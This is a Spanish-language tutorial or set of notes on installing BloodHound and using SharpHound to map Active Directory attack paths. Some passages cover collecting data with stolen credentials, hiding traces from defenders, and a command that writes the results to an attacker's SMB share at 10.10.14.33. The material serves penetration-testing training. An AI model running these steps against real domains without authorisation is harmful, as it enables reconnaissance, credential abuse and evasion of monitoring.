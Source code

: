 # Info

Bloodhound es una herramienta capaz de enumerar entornos de AD y Azure que, por medio de una interfaz, presenta los resultados de manera gráfica.

Utiliza una DB NoSQL para guardar los resultados y los presenta con un Graph data model

BloodHound muestra la información mediante **nodes** y **edges**. Los nodos son las OU, los edges son las relaciones que tiene una OU con otra.

# Instalación

Se requiere:

- Java 
- Neo4j

1) Agregamos el repo de java al source list

        echo "deb http://httpredir.debian.org/debian stretch-backports main" | sudo tee -a /etc/apt/sources.list.d/stretch-backports.list

2) Descargamos la key para el repo de neo4J

        wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -

3) agregamos el repo al sourcelist

        echo 'deb https://debian.neo4j.com stable 4.4' | sudo tee -a /etc/apt/sources.list.d/neo4j.list

4) Instalamos los paquetes requeridos

        sudo apt-get install apt-transport-https

5) instalamos neo4j

        sudo apt install neo4j

6) descargamos la última versión de bloodhound

        https://github.com/BloodHoundAD/BloodHound/releases
7) Descomprimimos fichero

        unzip BloodHound-linux-x64.zip && cd BloodHound-linux-x64/

8) lo corremos

        ./BloodHound --no-sandbox

# Uso

Iniciamos el neo4j con:

        sudo systemctl start neo4j

## COnfiguración del primer uso

Una vez iniciado el proceso, vamos al servicio iniciado en el localhost e iniciamos sesión con el user y pass neo4j

        http://localhost:7474/

Reestablecemos la contraseña.

## Recolección de información

Para recolectar información en los entornos de windows usamos SharpHound.

##### Modos de recolección:

| Metodo | desc |
|---|---|
|All | Busca todo lo que esté dentro del dominio menos los GPOLocalGroup |
|DCOnly | Colecta data solamente del DC sin preguntar al resto de los dispositivos domain-joined. Va a traer: Users, computadoras, security groups memberships, domain trusts, privilegios abusables dentro de los objetos. Entre otras cosas |
|Computer Only | Va a colectar información solamente de los equipos domain-joined |

        .\SharpHound.exe -c <metodo>


### Impersonación con SharpHound

Si conseguimos credenciales de otro usuario, podemos utilizarlo mediante las flags --ldapusername --ldappassword 

### Atacar un dominio en específico

SharpHound utiliza el dominio en el que nos encontramos por defecto, pero de haber multiples dominios en el Forest podríamos hacerlo indicando la flag -d y el dominio

        .\SharpHound.exe -c All -d <dominio>

### Entornos monitorizados

En un escenario donde el entorno se encuentra monitorizado, deberíamos realizar dos recolecciones con SHarpHound.

Primero realizamos una de tipo DCOnly, luego analizamos los resultados buscando computadoras que sean interesantes, creamos una lista de las mismas y luego corremos una computerOnly agregando la flag --computerfile y el file creado de las computadoras

        .\SharpHound.exe -c ComputerOnly --computerfile <file>

Se sabe que SharpHound, por defecto, genera distintos .json, que luego guarda en un zip. También genera un archivo con un nombre aleatorio y un .bin que corresponde a la caché de las consultas que realizas. Los equipos de defensa podrían utilizar estos patrones para detectar a Bloodhound. Una forma de intentar ocultar estos rastros es combinando algunas de estas opciones:

| Flag | Desc |
|---|---|
|--memcache | mantiene la caché en moria y no escribe en disco |
|--randomfilenames | Genera nombres de archivos aleatorios incluido el zip (modifica también la extención)|
|--outputprefix | Pone un prefijo a los archivos generados |
|--outputdirectory | señala el directorio en el que se guardarán los archivos |
|--zipfilename | nombra al zip final |
|--zippassword | da una contraseña al password |

Podríamos entonces levantar un smb y enviar el resultado de bloodhound al mismo

        SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword <pass> --outputprefix <pref> --randomfilenames

**<u>Atención:</u> **

Si el archivo que guardamos tiene password vamos a tener que descomprimirlo y luego enviar los archivos resultantes a bloodhound. Si no tiene password, indiferentemente de la extención del mismo, podemos sumarlo a bloodhound.

### Searchbar

La searchbar de Bloodhound nos permite traer información de las OU dentro del Domain.

Podemos también utilizar la funcionalidad de PathFinding (el primer boton del lado derecho de la search bar) para buscar paths de ataque entre dos nodos y utilizar la opción de filtros (el último boton) para indicar qué acciones no debe contemplar.


### El gráfico

Una vez cargada la información recogida, bloodhound nos presentará el gráfico.

En el mismo se mostrarán los nodos y edges

Si hacemos click en un nodo se nos desplegará la **info tab** debajo de la searchtab, si hacemos click derecho sobre el mismo tendremos una serie de opciones:

|Opción | Desc |
|----|-----|
|Set as Starting Node | Setea el nodo como el starting point del pathfinding |
|Set as Ending Node | Setea el nodo como el target en el pathfinding |
|Shortest paths to here | Va a buscar todos los caminos fáciles desde los distintos nodos hasta el nodo seleccionado (esto tarda mucho tiempo) |
| Shortest Paths to here from owned | Busca los vectores de ataque desde los nodos que tenemos como owned hasta el nodo seleccionado |
| Edit Node | Permite modificar las propiedades del nodo|
|Mark group as owned | Cambia el estado del nodo en la base de datos como owned, permitiendo nuevos shortpaths |
| Mark/Unmark Group as High Value | Marca o desmarca un nodo como de gran valor. Podemos aprivechar esto para buscar vectores de ataque usando la query "shortest paths to high-value assets" |
|Delete node | elimina un nodo de la base de datos |


Lo mismo pasa con los Edges, si hacemos click derecho sobre los mismos tendremos dos opciones:

- Help - Abrirá un popup con tres opciones:
        + Info
        + Abuse info

